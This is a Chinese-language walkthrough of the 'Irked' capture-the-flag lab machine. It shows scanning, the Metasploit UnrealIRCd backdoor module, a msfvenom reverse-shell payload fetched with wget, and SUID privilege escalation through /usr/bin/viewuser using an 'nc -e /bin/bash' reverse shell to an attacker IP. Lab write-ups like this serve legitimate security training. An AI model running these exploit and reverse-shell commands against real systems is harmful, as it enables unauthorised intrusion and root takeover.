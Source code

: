 ```yaml
---
title: Irked（suid提权）
categories:
- training
tags:
- training
- linux os
---
```

## info:

```
nmap -sS -Pn IP
22/tcp  open  ssh     OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
80/tcp  open  http    Apache httpd 2.4.10 ((Debian))
111/tcp open  rpcbind 2-4 (RPC #100000)


22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
80/tcp    open  http    Apache httpd 2.4.10 ((Debian))
111/tcp   open  rpcbind 2-4 (RPC #100000)
6697/tcp  open  irc     UnrealIRCd
8067/tcp  open  irc     UnrealIRCd
49074/tcp open  status  1 (RPC #100024)
65534/tcp open  irc     UnrealIRCd

```
## 80
```
<img src=irked.jpg>
<br>
<b><center>IRC is almost working!</b></center>
```
Apache/2.4.10

10.10.10.117/manual/images/


## IRC
```
searchsploit UnrealIRCd

浏览器访问以下地址，6697获得了一条信息：“ERROR :Closing Link: [10.10.14.13] (Throttled: Reconnecting too fast) -Email djmardov@irked.htb for more information.”
10.10.10.117:6697
10.10.10.117:8067
10.10.10.117:65534

search UnrealIRCd
```
## irc.rc
![3](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/03-10/3.PNG)

msfconsole -r irc.rc

```
use exploit/unix/irc/unreal_ircd_3281_backdoor
set RHOST IP
set RPORT 6697
run

shell
python -c 'import pty; pty.spawn("/bin/bash")'
```
获得一个shell
`find . -name "user.txt" 2>/dev/null` 尝试获得user.txt，权限不够
## 提权
```
os : Linux irked 3.16.0-6-686-pae #1 SMP Debian 3.16.56-1+deb8u1 (2018-05-08) i686 GNU/Linux

pwd:  /home/ircd/Unreal3.2

whoami : ircd

cat /etc/passwd | grep home
djmardov:x:1000:1000:djmardov,,,:/home/djmardov:/bin/bash
ircd:x:1001:1001::/home/ircd:/bin/sh

cd /;find . -name "user.txt" 2>/dev/null
./home/djmardov/Documents/user.txt

python -c 'import pty; pty.spawn("/bin/bash")'
su djmardov

cat unrealircd.conf | grep pass
获得疑似口令：f00Ness、f00、moocowsrulemyworld、LiNk

find . -name "id_rsa" 2>/dev/null
find . -name "*.pub"找到了一个路径，查看ssh配置文件

gcc -v
gcc version 4.9.2 (Debian 4.9.2-10+deb8u1)

sudo not found
```
#### 尝试1
[Linux Kernel 3.0 < 3.3.5](https://www.exploit-db.com/exploits/38390)
提权失败
![4](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/03-10/4.PNG)

`use post/multi/recon/local_exploit_suggester`没有发现任何可用exp

#### 尝试2
`msfvenom -a x86 --platform Linux -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.14.7 LPORT=7766 -f elf -o payload.elf`

wget http://10.10.14.7/payload.elf

![1](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/03-10/1.PNG)

local_exploit_suggester，有收获，但exp执行不成功
```
[+] 10.10.10.117 - exploit/linux/local/network_manager_vpnc_username_priv_esc: The target service is running, but could not be validated.
[+] 10.10.10.117 - exploit/linux/local/pkexec: The target service is running, but could not be validated.
[*] Post module execution completed
```
#### 尝试3
```
python -m SimpleHTTPServer 8088
wget http://10.10.14.7:8088/linux-exploit-suggester.sh

./linux-exploit-suggester.sh

Available information:

Kernel version: 3.16.0
Architecture: i686
Distribution: debian
Distribution version: 8
Additional checks (CONFIG_*, sysctl entries, custom Bash commands): performed
Package listing: from current OS

---
searchsploit linux 3.16

- 尝试shell脚本提示可能有的漏洞dirtyc0w.c
- CVE-2017-7533
失败
```
#### 尝试4
```
root@irked:/tmp# file /usr/bin/viewuser
file /usr/bin/viewuser
/usr/bin/viewuser: setuid ELF 32-bit LSB shared object, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=69ba4bc75bf72037f1ec492bc4cde2550eeac4bb, not stripped

strings /usr/bin/viewuser
发现里面有一个/tmp/listusers，查看一下是ascii字符，内容为/bin/bash

---

file /tmp/listusers
/tmp/listusers: ASCII text

cat /tmp/listusers
/bin/bash

---

ls -al /tmp/listusers
-rwxr-xr-x 1 djmardov djmardov 10 Mar  9 14:58 /tmp/listusers

/usr/bin/viewuser
cd /usr/bin/; ./viewuser

This application is being devleoped to set and test user permissions
It is still being actively developed 它仍在积极开发中
(unknown) :0           2019-03-09 14:53 (:0)

rm /tmp/listusers
./viewuser 
```

![11](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/03-10/11.PNG)

---

`ps -ef | grep viewuser`

![12](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/03-10/12.PNG)

虽然是以ircd用户运行的viewuser，可以看到进程是以root用户执行的

---

```
whereis nc
nc -h
echo "/bin/bash  nc -e /bin/bash 10.10.14.7 2233" >/tmp/listusers
cat /tmp/listusers

/bin/bash  nc -e /bin/bash 10.10.14.7 2233

本地运行nc -lnvp 2233

cd /usr/bin/; ./viewuser
结果：sh: 1: /tmp/listusers: Permission denied

ls -al /tmp/listusers
-rw------- 1 root ircd 43 Mar 10 03:54 /tmp/listusers

chmod +x /tmp/listusers

ls -al /tmp/listusers
-rwx------  1 root ircd   43 Mar 10 03:58 listusers

cd /usr/bin/; ./viewuser
结果
/bin/nc: /bin/nc: cannot execute binary file

nc -e /bin/bash 10.10.14.7 2233
```

![13](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/03-10/13.PNG)


